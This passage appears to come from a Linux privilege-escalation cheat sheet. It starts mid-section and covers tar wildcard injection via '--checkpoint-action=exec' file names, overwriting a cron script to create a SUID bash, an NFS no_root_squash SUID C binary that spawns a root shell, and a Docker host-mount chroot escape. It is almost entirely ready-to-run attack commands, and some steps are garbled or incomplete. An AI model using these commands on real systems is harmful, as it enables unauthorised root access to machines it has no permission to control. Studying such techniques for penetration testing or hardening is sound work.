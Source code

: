 Make runme.sh executable by `chmod +x runme.sh`

Then we can use some tar specified cammands,
`touch /home/user/--checkpoint=1`
`touch /home/user/--checkpoint-action=exec=sh\ runme.sh`

The above commands will display progress message for every 1 number. When hit this checkpoint do some action. This is because there is wildcard. So above commands will be like: 
`tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh\runme.sh`

So running `/tmp/bash -p` will give as root.

***

#### Cron File Overwrites

Just like cron path but instead of putting file in first path we can overwirte existing file for local privileage escalation or reverse shell.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh`.

Then run `/tmp/bash` after one minute get to root.

# 9. NFS Root Squashing <a name="NFS"></a>

`cat /etc/exports` then check for no root squash. That means that directory shareable and can be mounted.

In attacker machine `showmount -e <target_ip>` to see mountable folder.

`mkdir /tmp/mountme`
`mount -o  rw,vers=2 <target_ip>:mountable_folder /tmp/mountme`

Then we can mount malicous code to it. For example:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`

Now we can compile by,`gcc /tmp/mountme/x.c -o /tmp/mountme/x`

Then `chmod +s /tmp/mountme/x`

Then execute the x from target shell. `cd /sharefolder/` and `./x`. This will give root access.

# 10. Escalation via Docker <a name="Docker"></a>

First get into a low privilaged user.

Export LinEnum and exeute this tmp.

Check the result to find docker.

search docker gtfobins. 

We are in shell we can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` but our shell is bash so we need to change the above command to `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

Then we will be in root.